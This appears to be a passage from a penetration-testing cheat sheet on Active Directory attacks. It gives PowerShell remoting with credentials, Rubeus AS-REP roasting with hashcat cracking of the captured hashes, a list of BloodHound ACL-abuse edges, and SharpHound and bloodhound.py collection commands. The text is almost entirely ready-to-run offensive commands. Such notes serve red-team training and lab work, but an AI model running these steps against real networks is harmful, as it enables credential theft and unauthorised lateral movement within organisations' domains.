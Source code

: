 Enter-PSSession

```powershell
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("<username>", $password )
Enter-PSSession -ComputerName <computer_name> -Credential $cred
```

rubeus asreproast

```powershell
.\rubeus.exe asreproast

# modify hash insert $23 after $krb5asrep 
# $krb5asrep$23$......

.\hashcat.exe -a 0 -m 18200 .\hash .\Pass.txt
```

### :open_file_folder: BloodHound

:bangbang: [Edges](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html): relationship between nodes, direct of attack

https://github.com/ShutdownRepo/The-Hacker-Recipes/tree/master/ad/movement/dacl

```
AddMembers
Addself
ForceChangePassword
GenericAll
WriteDACL
GenericWrite
WriteOwner
AllExtendedRights
SQLAdmin
CanRDP
CanPSRemote (Evil-WinRM, usually at port 5985)
```

collecting data in Windows

```cmd
.\SharpHound.exe -c all --zipfilename ad_data
```

collecting data in Linux

```shell
# normal
python3 bloodhound.py -ns <nameserver ip> -d <domain> -c all -u <username> -p <password> --zip
# proxychains
proxychains python3 bloodhound.py -ns <nameserver ip> -d <domain> -c all -u <username> -p <password> --zip --dns-tcp
```

Cypher (Neo4j's query language) Query
